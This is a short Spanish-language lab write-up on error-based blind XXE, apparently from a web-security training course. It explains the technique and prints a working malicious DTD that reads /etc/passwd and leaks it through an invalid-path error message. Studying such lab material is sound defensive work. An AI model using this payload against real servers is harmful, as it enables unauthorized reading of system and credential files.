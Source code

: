 En esta clase abordamos una variante de XXE ciega que se apoya en mensajes de error para filtrar información sensible. Continuamos aprovechando el sistema de entidades parametrizadas, pero en lugar de usar canales externos como Collaborator, utilizamos rutas inválidas para provocar errores intencionados que revelen el contenido del archivo /etc/passwd.

Preparamos una DTD maliciosa en nuestro exploit server que lee ese archivo y lo introduce como parte de una ruta errónea. Al invocar esa DTD desde el XML enviado al endpoint vulnerable, el servidor intenta acceder a una ruta inválida que incluye el contenido del archivo, lo que provoca un error con el texto completo de la entidad.

Analizamos cómo estructurar correctamente tanto la DTD como el XML final y validamos el resultado observando la aparición del archivo dentro del mensaje de error devuelto. Esta técnica demuestra cómo aprovechar los errores internos del servidor como canal de exfiltración en ataques ciegos.

Solucion
Lo que se realizo como el anterior laboratorio fue poner esto en nuestro exploit server
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

y lo que pusimos en el BS fue esto sin modificar nada dentro del xml
![Pasted image 20250730203420.png](imagenes/Pasted image 20250730203420.png)

